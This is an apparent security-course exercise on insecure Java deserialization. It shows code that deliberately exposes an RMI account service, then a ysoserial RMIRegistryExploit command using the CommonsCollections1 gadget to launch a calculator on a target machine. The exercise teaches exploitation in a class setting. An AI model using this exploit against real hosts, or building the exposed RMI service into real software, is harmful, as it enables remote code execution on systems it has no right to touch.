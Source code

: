 # Exercise 6 - Insecure Deserialization

In this exercise we are going to exploit a deserialization vulnerability, the vulnerability is actually present in the _commons-collections_ library but can be exploited via an open Java RMI (remote method invocation) interface.

## Enable RMI service 

Java RMI for the Account Service is enabled via the below code:
```java
@Component
public class VBankRmiExporterFactory  {

    public static final int RMI_PORT = 1099;

    @Autowired
    JDBCAccountService implementation;

    @Bean
    RmiServiceExporter exporter() {
        Class<AccountService> serviceInterface = AccountService.class;
        RmiServiceExporter exporter = new RmiServiceExporter();
        exporter.setServiceInterface(serviceInterface);
        exporter.setService(implementation);
        exporter.setServiceName("AccountService");
        exporter.setRegistryPort(RMI_PORT);
        return exporter;
    }

}
```


## Exploit vulnerability

1. download yoserial jar from https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar 
1. run exploit   
```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.RMIRegistryExploit myhost 9099 CommonsCollections1 calc.exe
```
Well, this may not run. Please adjust hostname and port to _localhost_ and _1099_ and you need to check the website at https://github.com/frohoff/ysoserial for a
suitable payload (for me CommonsCollections1 works the best)

1. attack my mac, start the calculator in it :)   
I will tell you my IP in class.  
And the path to the executable in Mac OS is: _/Applications/Calculator.app/Contents/MacOS/Calculator_